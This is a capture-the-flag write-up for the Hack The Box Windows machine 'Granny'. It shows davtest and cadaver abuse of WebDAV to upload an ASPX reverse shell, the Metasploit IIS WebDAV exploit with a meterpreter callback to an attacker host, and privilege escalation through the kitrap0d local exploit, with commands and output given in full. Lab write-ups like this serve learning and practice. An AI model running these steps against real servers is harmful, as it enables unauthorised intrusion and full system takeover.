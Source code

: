 Box: Windows
Level: Easy
### Index
1. WebDAV Exploitation 
2. Cadaver - WebDav client for Linux
3. davtest - Command line utility to check if you're allowed to upload file using PUT/Move Method. Uploads random files 
4. local_exploit_Suggester.


Following HTTP Methods were supported
```
http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD DELETE COPY MOVE PROPFIND PROPPATCH SEARCH MKCOL LOCK UNLOCK PUT POST
|_  Potentially risky methods: TRACE DELETE COPY MOVE PROPFIND PROPPATCH SEARCH MKCOL LOCK UNLOCK PUT
```

The IIS Server has the WebDev enabled as per nmap 
```
http-iis-webdav-vuln: WebDAV is ENABLED. No protected folder found; check not run. If you know a protected folder, add --script-args=webdavfolder=<path>
```

Now Here are couple of lessons that I have learned. Running local_exploit_suggester gives me couple of exploits that might work however, none of them were worked. I tried winPEAS.bat and didn't find a proper path to privilege escalation. During the nmap enumeration, I found the following thing enabled on the box.

```
_http-iis-webdav-vuln: WebDAV is ENABLED. No protected folder found; check not run. If you know a protected folder, add --script-args=webdavfolder=<path
```

WebDAV was ENABLED. I used the following two tools to check whether I am allowed to upload on the target.
```
$ davtest -move -sendbd auto -url http://granny.htb/
********************************************************
 Testing DAV connection
OPEN            SUCCEED:                http://granny.htb
********************************************************
NOTE    Random string for this session: f4my2eP
********************************************************
 Creating directory
MKCOL           SUCCEED:                Created http://granny.htb/DavTestDir_f4my2eP
********************************************************
 Sending test files (MOVE method)
PUT     txt     SUCCEED:        http://granny.htb/DavTestDir_f4my2eP/davtest_f4my2eP_jsp.txt
MOVE    jsp     SUCCEED:        http://granny.htb/DavTestDir_f4my2eP/davtest_f4my2eP.jsp
MOVE    jsp     SUCCEED:        http://granny.htb/DavTestDir_f4my2eP/davtest_f4my2eP.jsp;.txt
PUT     txt     SUCCEED:        http://granny.htb/DavTestDir_f4my2eP/davtest_f4my2eP_html.txt
MOVE    html    SUCCEED:        http://granny.htb/DavTestDir_f4my2eP/davtest_f4my2eP.html
^C
```

Following to this, I used the 'cadaver'  which is a command line WebDav client for Linux to put the Shell.aspx 
```
cadaver http://granny.htb/
dav:/DavTestDir_f4my2eP/> put shell2.aspx 
Uploading shell2.aspx to `/DavTestDir_f4my2eP/shell2.aspx':
Progress: [=============================>] 100.0% of 3015 bytes failed:
```

I got the reverse shell by visiting the http://granny.htb/DavTestDir_f4my2eP/shell2.aspx. NetCat Listener was started. Now I did the same thing with msfconsole. 
```
use exploit/windows/iis/iis_webdav_scstoragepathfromurl
set RHOST 10.10.10.15
set LHOST 10.10.16.5
exploit

meterpreter>shell
c:\windows\system32\inetsrv>whoami
whoami
nt authority\network service
```

From here, I had to reset this machine 3 times to use the local_exploit_suggester. I got the following suggestion from the local exploit suggester.
```
1   exploit/windows/local/ms10_015_kitrap0d                        Yes                      The service is running, but could not be validated.
2   exploit/windows/local/ms14_058_track_popup_menu                Yes                      The target appears to be vulnerable.
3   exploit/windows/local/ms14_070_tcpip_ioctl                     Yes                      The target appears to be vulnerable.
4   exploit/windows/local/ms15_051_client_copy_image               Yes                      The target appears to be vulnerable.
5   exploit/windows/local/ms16_016_webdav                          Yes                      The service is running, but could not be validated.
6   exploit/windows/local/ppr_flatten_rec                          Yes                      The target appears to be vulnerable.
```

Out of which I used exploit/windows/local/ms10_015_kitrap0d to get the system shell.